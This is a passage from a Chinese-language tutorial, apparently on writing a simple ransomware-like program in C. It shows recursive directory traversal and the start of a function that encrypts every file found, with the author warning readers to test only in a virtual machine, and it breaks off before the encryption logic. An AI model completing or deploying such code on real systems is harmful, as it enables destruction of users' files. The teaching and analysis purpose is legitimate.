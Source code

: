 ```
		while (ret) {
			//如果找到的是个文件夹 则需要继续查找该文件夹内容
			if (findData.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {
				//文件夹拼接=原始路径+新文件夹路径
				memset(temp, 0, 256);
				sprintf(temp, "%s\\%s", pathName, findData.cFileName);
				printf("找到一个文件夹：%s\n", temp);
				Sleep(1000);                             //暂停1秒钟
				findFile(temp);
			}
			else { //如果是文件 则加密文件
				memset(temp, 0, 256);
				sprintf(temp, "%s\\%s", pathName, findData.cFileName);
				printf("找到一个文件：%s\n", temp);

			}
			//查找下一个文件
			ret = FindNextFile(hFile, &amp;findData);
		}
	}
	return;
}

int main()
{
	//获取当前文件夹
	char buff[256] = { 0 };
	GetCurrentDirectory(256, buff);
	printf("当前目录是：%s\n\n", buff);
	findFile(buff);

	return 0;
}

```

<mark>在写代码过程中，我们一定要学会边写边调试，或者称为打桩输出，而不是一写到底最后来慢慢修改。此时运行程序，它输出遍历当前目录的文件夹结果如下图所示，为什么会一直在递归呢？</mark>

注意这里的 “.” 代表当前文件夹，所以需要过滤掉该点，否则陷入无限递归。

最终运行结果如下图所示，将当前文件夹内所有内容显示出来。

比如Debug文件夹中内容，和我们的获取结果是一一对应的。

**第七步，实现文件加密功能。**<br/> 作者将文件夹改为指定的目录，再次强调虚拟机中运行或者指定某个不重要的文件夹进行测试。具体修改是在findFile函数中增加了jiami函数的调用。

注意： 使用二进制打开可以复制大型文件如.exe文件、音频视频文件等，所以文件操作改为“rb”和“wb”。由于某些文件会很大，我们文件读写换了一种操作，**按字符读入及写入**。每一种写法和优化都是有原因的，这个过程需要你去慢慢琢磨，包括逆向分析也一样，操作系统或编译器、恶意代码为什么这么优化，我们都需要慢慢去分析。

**<mark>完整代码如下：</mark>**

```
#include &lt;stdio.h&gt;
#include &lt;string.h&gt;
#include &lt;windows.h&gt;
#include &lt;stdlib.h&gt;

//文件加密函数 参数-文件名字
void jiami(char* fileName, char* pathName)
{
	FILE* fp = NULL;                  //文件指针变量
	int size = 0;                     //文件大小

	//打开文件
	//注意： 使用二进制打开可以复制大型文件如.exe文件，音频视频文件等
	fp = fopen(fileName, "rb");       //打开可读写的文件
	if (NULL == fp) {
```